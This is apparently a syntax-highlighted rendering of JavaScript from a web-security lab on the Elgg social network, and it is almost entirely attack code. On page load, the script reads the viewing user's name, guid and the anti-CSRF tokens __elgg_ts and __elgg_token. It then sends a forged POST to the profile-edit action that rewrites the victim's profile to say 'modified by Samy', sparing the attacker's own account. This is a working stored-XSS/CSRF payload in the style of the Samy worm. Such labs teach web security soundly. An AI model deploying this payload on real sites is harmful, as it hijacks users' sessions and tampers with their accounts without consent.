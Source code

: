   <span class="pl-smi">window</span><span class="pl-kos">.</span><span class="pl-en">onload</span> <span class="pl-c1">=</span> <span class="pl-k">function</span> <span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-c">//JavaScript code to access user name, user guid, Time Stamp __elgg_ts</span>
    <span class="pl-c">//and Security Token __elgg_token</span>
    <span class="pl-k">var</span> <span class="pl-s1">userName</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;name="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">name</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">guid</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;guid="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">ts</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_ts="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_ts</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">token</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_token="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_token</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">description</span> <span class="pl-c1">=</span>
      <span class="pl-s">"&amp;description=&lt;p&gt;modified by Samy&lt;p&gt;"</span> <span class="pl-c1">+</span> <span class="pl-s">"&amp;accesslevel[description]=2"</span><span class="pl-kos">;</span>
    <span class="pl-c">//Construct the content of your url.</span>
    <span class="pl-k">var</span> <span class="pl-s1">sendurl</span> <span class="pl-c1">=</span> <span class="pl-s">"http://www.xsslabelgg.com/action/profile/edit"</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">content</span> <span class="pl-c1">=</span> <span class="pl-s1">userName</span> <span class="pl-c1">+</span> <span class="pl-s1">guid</span> <span class="pl-c1">+</span> <span class="pl-s1">ts</span> <span class="pl-c1">+</span> <span class="pl-s1">token</span> <span class="pl-c1">+</span> <span class="pl-s1">description</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">samyGuid</span> <span class="pl-c1">=</span> <span class="pl-c1">47</span><span class="pl-kos">;</span>
    <span class="pl-k">if</span> <span class="pl-kos">(</span><span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span> <span class="pl-c1">!=</span> <span class="pl-s1">samyGuid</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
      <span class="pl-c">//Create and send Ajax request to modify profile</span>
      <span class="pl-k">var</span> <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-c1">null</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"POST"</span><span class="pl-kos">,</span> <span class="pl-s1">sendurl</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Host"</span><span class="pl-kos">,</span> <span class="pl-s">"www.xsslabelgg.com"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span>
        <span class="pl-s">"Content-Type"</span><span class="pl-kos">,</span>
        <span class="pl-s">"application/x-www-form-urlencoded"</span>
      <span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">send</span><span class="pl-kos">(</span><span class="pl-s1">content</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-kos">}</span>
